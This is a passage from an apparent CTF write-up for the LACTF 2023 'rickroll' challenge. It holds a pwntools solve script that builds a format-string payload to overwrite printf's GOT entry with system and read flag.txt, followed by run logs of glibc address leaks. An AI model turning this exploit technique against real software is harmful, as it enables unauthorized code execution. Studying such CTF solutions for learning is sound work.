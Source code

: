 ```python  
    payload  = ('%' + str(to_write) + 'c%14$hhn').ljust(16, '.').encode()

    to_write = (((system >> 8) & 0xff) - to_write - payload[:16].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%15$hhn').ljust(16, '.').encode()

    to_write = (((system >> 16) & 0xff) - 0x55 - to_write - payload[16:32].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%16$hhn').ljust(16, '.').encode()

    to_write = (256 - 0xd2 - to_write - payload[32:48].count(b'.')) % 256  
    payload += ('%' + str(to_write) + 'c%17$hhn').ljust(16, '.').encode()

    payload += p64(elf.got.printf)  
    payload += p64(elf.got.printf + 1)  
    payload += p64(elf.got.printf + 2)  
    payload += p64(elf.sym.main_called)

    p.sendlineafter(b'Lyrics: ', payload)

    try:  
        p.sendlineafter(b'sh: 1: Lyrics:: not found\n', b'cat flag.txt')  
        p.recvuntil(b'sh: 1: Never: not found\nsh: 2: Never: not found\n')  
        log.success(p.recv().decode().strip())  
    except EOFError:  
        p.close()  
        glibc.address = 0  
        main()

  
if __name__ == '__main__':  
    main()  
```

When executed:  
```  
$ python3 solve.py lac.tf 31135   

[*] '/home/anger/hack/ctf/LACTF2023/rickroll/rickroll_patched' Arch: amd64-64-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x3ff000) RUNPATH: b'.'   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7fa4f94079c0   
[+] Glibc base address: 0x7fa4f9396000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f1ece3cf9c0   
[+] Glibc base address: 0x7f1ece35e000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f81dba5f9c0   
[+] Glibc base address: 0x7f81db9ee000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f3bdb53c9c0 [+] Glibc base address: 0x7f3bdb4cb000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f0c5b7639c0   
[+] Glibc base address: 0x7f0c5b6f2000   
[*] Closed connection to lac.tf port 31135 [+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7effec44b9c0   
[+] Glibc base address: 0x7effec3da000   
[*] Closed connection to lac.tf port 31135   
[+] Opening connection to lac.tf on port 31135: Done   
[*] Leaked fgets() address: 0x7f438f0d29c0   
[+] Glibc base address: 0x7f438f061000   
[*] Closed connection to lac.tf port 31135   
```